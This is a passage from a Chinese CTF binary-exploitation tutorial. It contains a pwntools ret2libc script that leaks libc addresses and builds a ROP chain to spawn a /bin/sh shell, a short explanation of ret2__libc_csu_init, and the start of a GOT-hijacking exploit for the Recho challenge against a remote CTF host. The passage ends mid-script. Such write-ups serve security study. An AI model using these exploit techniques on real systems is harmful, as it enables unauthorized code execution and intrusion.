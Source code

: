 ```python
binsh_libc = libc.search('/bin/sh').next()
print(hex(binsh_libc))
print(hex(system_libc))
main_addr=0x000000000040133A

puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
payload = 'a'*(0x80+0x8)+p64(add_poprdi)+p64(puts_plt)+p64(puts_got)+p64(main_addr)

p.recvuntil("Please leave your name :")
p.sendline("Me")
p.recvuntil("Now, please tell us more about you to check in :")
p.sendline(payload)

puts_add = u64(p.recv()[:-1].ljust(8, b'\x00'))
print(hex(puts_add))
offset = puts_add - puts_libc
system_addr = system_libc + offset
binsh_addr = binsh_libc + offset

print(hex(offset))
print(hex(system_addr))
print(hex(binsh_addr))
payload2='a'*(0x80+0x8)
payload2 += p64(ret_addr) #0xaaaaa ret 堆栈平衡啊啊啊
payload2 += p64(add_poprdi)+p64(binsh_libc+1)+p64(system_libc+1)

p.recvuntil("Please leave your name :")
p.sendline("Me")
p.recvuntil("Now, please tell us more about you to check in :")
p.sendline(payload2)
#这个萌新还不知道 这个题的系统输出流被关了
#要侧信道攻击爆破flag
#这这这这叫签到题吗呜呜呜
p.interactive()
 
```

#### **ret2\_\_libc\_csu\_init**

**利用原理**

首先了解64位文件的传参方式——前六个参数，从左到右存放到寄存器rdi，rsi，rdx，rcx，r8，r9中，之后的参数依次放入栈中，这和32位程序一样。

### 例题：攻防世界Recho

劫持GOT表，将alarm got表劫持为syscall，然后调用read读取flag文件再print进行输出

exp：

```
from pwn import *
from LibcSearcher import *
context(arch='amd64',os="linux")
context.log_level = 'debug'

#p=process("../Recho")
p=remote("61.147.171.105",52887)
elf=ELF("../Recho")

flag_addr = 0x00601058

alarm_plt = elf.plt['alarm']
print("alarm plt:",hex(alarm_plt))
alarm_got = elf.got['alarm']
```